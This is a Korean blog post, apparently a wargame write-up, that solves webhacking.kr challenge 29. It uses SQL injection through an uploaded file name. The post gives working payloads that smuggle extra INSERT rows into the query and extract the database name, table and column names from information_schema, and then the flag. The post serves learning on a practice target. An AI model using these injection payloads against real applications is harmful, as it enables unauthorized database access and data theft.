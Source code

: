 ```yaml
---
title: "[webhacking.kr] 29번 문제 풀이[SQL injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "29번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 29번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152376271-c40187e8-df65-4923-8541-15f0fa82f908.png)

  파일을 업로드 하여 다른 테이블에 있는 flag를 읽어오는 문제입니다.

  파일을 업로드를 하면 다음의 정보들이 저장되고 화면에 출력됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/152376489-3a2400f1-8470-4b65-8442-29e050e4f0d0.png)

# 문제 풀이
  화면에 표시되는 정보들을 봤을 때 DB에는 파일이 업로드된 시간, 나의 IP, 업로드된 파일명이 저장이 됩니다. 실제 해당 정보들이 DB에 들어갈 쿼리문을 보면 다음과 같이 구성되어 있을 것입니다.

  ```sql
  insert into chall29(time,ip,file) values (123,'내ip','파일명')
  ``` 

  위의 정보들 중에서 파일명 부분은 조작이 가능하기 때문에 이를 이용해서 인젝션 공격을 시도할 수 있습니다. 

  이때 insert into chall29 문에서 **(time,ip,file)** 컬럼들의 순서를 모두 고려해서 인젝션을 수행해야 합니다. 가능한 경우의 수는 총 6가지로 다음과 같습니다.

  1. time,ip,file
  2. time,file,ip
  3. ip,time,file
  4. ip,file,time
  5. file,ip,time
  6. file,time,ip

  만약 1번의 순서로 insert into 문이 작성되어 있다면 다음과 같이 injection을 시도할 수 있습니다.

  파일 명 : ```test1'),(123,'내ip','test2```
  
  위의 파일명이 인젝션 되었을때 sql문은 다음과 같습니다.

  ```sql
  insert into chall29(time,ip,file) values (123,'내ip','test1'),(123,'내ip','test2')
  ```

  위의 케이스를 시도해 봤을때, 공격이 성공한 것은 6번 케이스 였으며 다음과 같은 파일명으로 업로드 하였을때 한번에 **test1**파일과, **test2**파일이 업로드 되었습니다.

  ```md
  test1',123,'58.122.121.25'),('test2
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152526741-3cca21a5-54db-4d55-b232-a6ef542bb546.png)

  이제 test2 대신에 원하는 정보를 뽑아 올 수 있는 쿼리를 작성하여 데이터를 읽어올 수 있습니다.

  다른 테이블에 있는 데이터를 읽어와야 하므로, 다음의 과정을 통해서 데이터를 찾아야 합니다.

  - DB 명 알아내기 -> database() 이용
  - table명 알아내기 -> information_schema.tables이용
  - column명 알아내기 -> information_schema.columns이용
  - 데이터 알아내기 -> select [column_name] from [table_name] 이용
  
  위의 순서대로 데이터를 뽑아냅니다. 데이터를 뽑아내기 위해 사용한 파일 명들은 다음과 같으며 업로드시 다음과 같이 차례대로 데이터를 뽑을 수 있습니다.

  - DB 이름
  >  파일명 : ```1',1,'1'),(database(),1,'58.122.121.25')#```
  > ![image](https://user-images.githubusercontent.com/33647663/152528480-491ff65a-9a33-4775-94f2-7275a3a9cd58.png)

  - table 이름
  > **주의**<br>
  해당 DB에 테이블이 여러개 있으므로 limit 을 이용해서 하나씩 테이블 명을 뽑아봐야 합니다.<br><br>
  > 파일명 : ```1',1,'1'),((select table_name from information_schema.tables where table_schema='chall29' limit 0,1),1,'58.122.121.25')#```<br>
  > ![image](https://user-images.githubusercontent.com/33647663/152528957-d867196c-c42e-48c2-8c9e-d67dba838ee3.png)<br><br>
  > 파일명 : ```1',1,'1'),((select table_name from information_schema.tables where table_schema='chall29' limit 1,1),1,'58.122.121.25')#```<br>
  > ![image](https://user-images.githubusercontent.com/33647663/152530022-29f7be81-b81f-4170-8636-77e7321a7552.png)
  

  - column 이름
  > **주의**<br>
  컬럼 명도 하나의 테이블에 여러개의 컬럼이 있을 가능성이 있으므로, limit 을 이용해서 하나씩 뽑아와야 합니다.<br><br>
  > 파일명 : ```1',1,'1'),((select column_name from information_schema.columns where table_name='flag_congratz' limit 0,1),1,'58.122.121.25')#```<br>
  > ![image](https://user-images.githubusercontent.com/33647663/152531208-64665411-dc64-46c2-a41f-628312522299.png)


  - 데이터
  > 파일명 : ```1',1,'1'),((select flag from flag_congratz limit 0,1),1,'58.122.121.25')#```
  > ![image](https://user-images.githubusercontent.com/33647663/152531406-15f94dc8-3ab0-46a3-8e53-aa417a3b8a24.png)

  
# 결과
  위의 방법대로 순서대로 풀었다면 다음과 같이 플래그를 구할 수 있습니다.
  
  ![image](https://user-images.githubusercontent.com/33647663/152531576-9cddbeec-91e7-4296-86ab-0db0087de64e.png)


